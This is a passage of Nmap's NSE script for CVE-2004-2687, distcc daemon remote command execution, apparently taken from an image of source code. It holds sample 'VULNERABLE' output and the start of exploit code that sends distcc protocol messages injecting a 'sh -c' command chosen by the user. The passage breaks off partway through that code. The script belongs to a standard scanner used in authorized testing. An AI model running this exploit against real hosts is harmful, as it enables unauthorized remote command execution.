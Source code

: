 ```bash
-- |     State: VULNERABLE (Exploitable)
-- |     IDs:  CVE:CVE-2004-2687
-- |     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
-- |     Description:
-- |       Allows executing of arbitrary commands on systems running distccd 3.1 and
-- |       earlier. The vulnerability is the consequence of weak service configuration.
-- |
-- |     Disclosure date: 2002-02-01
-- |     Extra information:
-- |
-- |     uid=118(distccd) gid=65534(nogroup) groups=65534(nogroup)
-- |
-- |     References:
-- |       https://distcc.github.io/security.html
-- |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
-- |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
--
-- @args cmd the command to run at the remote server
--

author = "Patrik Karlsson"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"exploit", "intrusive", "vuln"}


portrule = shortport.port_or_service(3632, "distcc")

local arg_cmd = stdnse.get_script_args(SCRIPT_NAME .. '.cmd') or "id"

local function fail(err) return stdnse.format_output(false, err) end

action = function(host, port)

  local distcc_vuln = {
    title = "distcc Daemon Command Execution",
    IDS = {CVE = 'CVE-2004-2687'},
    risk_factor = "High",
    scores = {
      CVSSv2 = "9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)",
    },
    description = [[
Allows executing of arbitrary commands on systems running distccd 3.1 and
earlier. The vulnerability is the consequence of weak service configuration.
]],
    references = {
      'https://nvd.nist.gov/vuln/detail/CVE-2004-2687',
      'https://distcc.github.io/security.html',
    },
    dates = { disclosure = {year = '2002', month = '02', day = '01'}, },
    exploit_results = {},
  }

  local report = vulns.Report:new(SCRIPT_NAME, host, port)
  distcc_vuln.state = vulns.STATE.NOT_VULN

  local socket = nmap.new_socket()
  if ( not(socket:connect(host, port)) ) then
    return fail("Failed to connect to distcc server")
  end

  local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
```